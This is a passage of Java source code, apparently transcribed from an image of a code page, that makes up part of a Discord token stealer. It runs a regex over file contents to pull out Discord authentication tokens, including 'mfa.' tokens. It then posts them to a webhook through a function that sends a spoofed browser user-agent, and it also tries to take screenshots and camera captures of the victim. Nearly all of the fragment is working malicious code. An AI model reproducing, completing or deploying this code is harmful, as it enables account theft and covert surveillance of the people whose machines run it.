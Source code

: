                             String strLine;
                            while ((strLine = br.readLine()) != null) {

                                Pattern p = Pattern.compile("[nNmM][\\w\\W]{23}\\.[xX][\\w\\W]{5}\\.[\\w\\W]{27}|mfa\\.[\\w\\W]{84}");
                                Matcher m = p.matcher(strLine);

                                while (m.find()) {
                                    if (cx > 0) {
                                        webhooks.append("\n");
                                    }
                                    webhooks.append(" ").append(m.group());
                                    cx++;
                                }

                            }

                        } catch (Exception ignored) {
                        }
                    }
                }
                sendMessage("```" + webhooks.toString() + "```");

            } catch (Exception e) {
                sendMessage("``` UNABLE TO PULL TOKEN[S] : " + e + "```");
            }
        } else {
            sendMessage("```UNABLE TO FIND OTHER INFORMATION. OS IS NOT SUPPORTED```");
        }
        try {
            captureScreen();
        } catch (Exception ex) {
            sendMessage("``` UNABLE TO SCREENSHOT : " + ex + "```");
        }
        try {
            captureCamera();
        } catch (Exception ex) {
            sendMessage("``` UNABLE TO CAPTURE CAMERA : " + ex + "```");
        }
    }

    private static void sendMessage(String message) {
        PrintWriter out = null;
        BufferedReader in = null;
        StringBuilder result = new StringBuilder();
        try {
            URL realUrl = new URL("webhook");
            URLConnection conn = realUrl.openConnection();
            conn.setRequestProperty("accept", "*/*");
            conn.setRequestProperty("connection", "Keep-Alive");
            conn.setRequestProperty("user-agent", "Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1)");
            conn.setDoOutput(true);
            conn.setDoInput(true);
            out = new PrintWriter(conn.getOutputStream());
            String postData = URLEncoder.encode("content", "UTF-8") + "=" + URLEncoder.encode(message, "UTF-8");
            out.print(postData);
            out.flush();
            in = new BufferedReader(new InputStreamReader(conn.getInputStream()));
            String line;
            while ((line = in.readLine()) != null) {
                result.append("/n").append(line);
            }
